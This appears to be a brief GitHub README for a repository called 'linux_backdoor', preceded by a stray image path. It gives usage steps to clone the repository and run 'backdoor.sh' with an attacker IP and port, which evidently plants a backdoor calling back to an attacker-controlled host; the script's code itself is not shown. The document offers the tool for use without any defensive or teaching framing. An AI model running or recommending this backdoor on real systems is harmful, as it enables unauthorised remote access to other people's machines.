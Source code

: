 # linux_backdoor

Usage : 

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  cd linux_backdoor
  chmod +x *
  bash backdoor.sh <Attacker IP> <Port>
  
Images :
  
  



